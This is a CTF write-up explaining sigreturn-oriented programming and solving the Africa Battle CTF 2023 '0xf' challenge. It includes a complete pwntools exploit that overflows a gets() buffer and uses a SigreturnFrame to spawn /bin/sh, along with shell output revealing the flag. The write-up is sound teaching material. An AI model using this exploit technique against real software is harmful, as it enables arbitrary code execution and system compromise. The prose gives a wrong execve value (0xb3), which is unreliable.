 ```yaml
---
title: PWN srop exploitation technical
categories: CTF 
image: null
published: true
---
```



H3ll0 pwn3rs !!!

in this article, we are going to learn how to use srop technical to make ropchain


So what is `SROP`

To understand this exploit technical, you must understand how  `x86 sigreturn syscall` work.
The cause is  srop exploit `sigreturn` syscall functionnality to make ROP (return oriented programming)

# sigreturn syscall 
```
Sigreturn (syscall 0xf) is a syscall used to restore the entire register context from memory pointed at by ESP or RSP for x86_64 arch.
That said when the cpu exec syscall(rax=0xf), the program will read frame pointed by stack pointer
and restor  it value into registers. This frame has a  specific format for each CPU arch  so the CPU know that at offset xx, it is the rax register value and at offset yy it is the value of rbx
```

How this can help us to exploit a program.

If you can overwrite the stack frame after sigreturn syscall, by exploiting buffer overflow vuln for example, you can control the value of cpu registers and that is where you can do rop chain.
For instance, let said  on x86_64 by overwriting the stack frame after sigreturn syscall  call you are able to overwrite: 
- rax to 0xb3
- rdi to the address of "bin/sh" string
- rsi to 0
- rip to sycall gadget

That will let the program make execve("/bin/sh") and you get the shell.


# Pratical part
In this part, i will use Africa Battle CTF 2023 challenge to show a pratical case of this exploitation technical 

Let start !!!!!!!!!!!!!!!!!!!!!!
The challenge was named: `0xf`

The binary file `syscall` is an ELF x86_64 dynamically linkded and not stripped.

When we check mitigation we can see that the binary don't has `stack cannary` protection , `No PIE` and the stack is not executable
```bash
file syscall 
syscall: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=aed719058a5efedf4d245c5c3c610937cd8d4ad7, for GNU/Linux 3.2.0, not stripped
┌─[top0n3@parrot]─[/media/top0n3/7B29B9A756CC225A/ctf/battleCTF-2023-main/Prequal/Pwn/0xf/source]
└──╼ $pwn checksec syscall 
[*] '/media/top0n3/7B29B9A756CC225A/ctf/battleCTF-2023-main/Prequal/Pwn/0xf/source/syscall'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No

```


![recon](/assets/pwn/battle_0xf_recon.png)

Through gdb-gef session, we can see that the binary are  two defined function `main` and `hausa`.

i used ghidra to decompile these function .
```

undefined8 main(void)

{
  char local_38 [48];
  
  puts("Africa battle CTF 2023");
  puts("Tell us about your ethnicity:");
  gets(local_38);
  return 0;
}

undefined8 hausa(void)

{
  return 0xf;
}


```

main function call gets(local_38) so the program is vulnerable to Buffer overflow.
But what to do with this vulnerability!?
I search for gadget to make ropchain, i noticed that we don't have a lot of gadget.
By those gadgets are very interesting
```
mov rax, 0xf; ret
syscall; ret
```
if we overwrite saved rip to `mov rax, 0xf; ret` and saved rip + 8 to `syscall; ret`, the program will make signreturn syscall and.
So the the thing that we must do here is to create a frame that will help us to make execve(/bin/sh) and sand payload like this `mov rax,0xf;ret` + `syscall; ret` + our created frame data.

Pwn tool python  module can help us to create this frame . The only thing that we need is to find `/bin/sh` address and use it with our previous gadget. 
Luckly we have "/bin/sh" string on the binary.

Bellow is the final exploit

```python
from pwn import *



# Set up pwntools for the correct architecture
elf = exe = context.binary = ELF(args.EXE or 'syscall')

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)


# Gadget to make srop 
bin_sh = int(next(elf.search(b'/bin/sh'))) # /bin/sh string
offset = 56  # offset to overwrite return address
mov_rax_0xf = next(elf.search(asm('mov eax ,0xf')))   # signreturn gadget
syscall_ret = next(elf.search(asm('syscall; ret')))  # syscall gadget

########################  Payload ########################
frame = SigreturnFrame(kernel='amd64') 
frame.rax = constants.SYS_execve
frame.rdi =  bin_sh
frame.rdx = 0                 # envp = NULL
frame.rip = syscall_ret  

payload = cyclic(offset)
payload += p64(mov_rax_0xf) 
payload += p64(syscall_ret)
payload += bytes(frame)

io = start()
io.sendline(payload)
io.interactive()

```

```bash
┌─[top0n3@parrot]─[/media/top0n3/7B29B9A756CC225A/ctf/battleCTF-2023-main/Prequal/Pwn/0xf/source]                                                                                        [0/3]
└──╼ $python3 exploit.py 
[*] '/media/top0n3/7B29B9A756CC225A/ctf/battleCTF-2023-main/Prequal/Pwn/0xf/source/syscall'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
[+] Starting local process '/media/top0n3/7B29B9A756CC225A/ctf/battleCTF-2023-main/Prequal/Pwn/0xf/source/syscall': pid 191168
[*] Switching to interactive mode
Africa battle CTF 2023
Tell us about your ethnicity:
$ ls
__pycache__  exploit.py  flag.txt  syscall
$ cat flag.txt
battleCTF{Ethnicity_SigROP_Syscall_Army_f0d9e29e9c1d03c996083bb9c3325d33}
$  
```
and we get the flag by making `SROP`
